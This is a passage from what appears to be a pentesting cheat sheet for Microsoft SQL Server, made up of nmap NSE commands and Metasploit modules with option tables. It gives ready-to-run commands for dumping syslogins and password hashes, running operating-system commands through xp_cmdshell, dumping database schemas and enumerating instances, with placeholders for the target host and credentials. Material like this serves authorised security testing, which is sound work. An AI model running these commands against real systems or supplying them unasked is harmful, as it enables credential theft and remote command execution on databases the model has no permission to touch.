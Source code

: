 #### 2.6.1 - System Logins

`$ nmap -p 1433 --script ms-sql-query --script-args mssql.username=<username>,mssql.password=<password>,ms-sql-query="SELECT * FROM master..syslogins" <IP>`

### 2.7 - Hashdump

`$ nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.8 - XP_Cmdshell

`$ nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<username>,mssql.password=<password>,ms-sql-xp-cmdshell="<commands>" <IP>`

## 03 - Metasploit

### 3.1 - Database

#### 3.1.1 - Schema

```
msf > use auxiliary/scanner/mssql/mssql_schemadump

msf auxiliary(scanner/mssql/mssql_schemadump) > options

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   DISPLAY_RESULTS      true             yes       Display the Results to the Screen
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                yes       The number of concurrent threads (max one per host)
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(scanner/mssql/mssql_schemadump) > set rhosts <IP>

msf auxiliary(scanner/mssql/mssql_schemadump) > set username <username>

msf auxiliary(scanner/mssql/mssql_schemadump) > set password <password>

msf auxiliary(scanner/mssql/mssql_schemadump) > run
```

#### 3.1.2 - Enumerate Instances

```
msf > use auxiliary/admin/mssql/mssql_enum

msf auxiliary(admin/mssql/mssql_enum) > options

Module options (auxiliary/admin/mssql/mssql_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
```
